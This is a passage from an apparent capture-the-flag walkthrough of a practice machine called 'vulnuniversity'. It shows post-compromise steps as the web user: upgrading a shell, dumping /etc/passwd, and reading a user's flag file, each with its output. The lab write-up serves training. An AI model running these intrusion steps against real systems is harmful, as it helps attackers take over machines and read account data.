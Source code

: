 Fix shell:

```
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@vulnuniversity:/$
```

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:111:119:ftp daemon,,,:/srv/ftp:/bin/false
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```

##### User flag:

```bash
$ cd /home/bill	
$ ls -la
total 24
drwxr-xr-x 2 bill bill 4096 Jul 31  2019 .
drwxr-xr-x 3 root root 4096 Jul 31  2019 ..
-rw-r--r-- 1 bill bill  220 Jul 31  2019 .bash_logout
-rw-r--r-- 1 bill bill 3771 Jul 31  2019 .bashrc
-rw-r--r-- 1 bill bill  655 Jul 31  2019 .profile
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
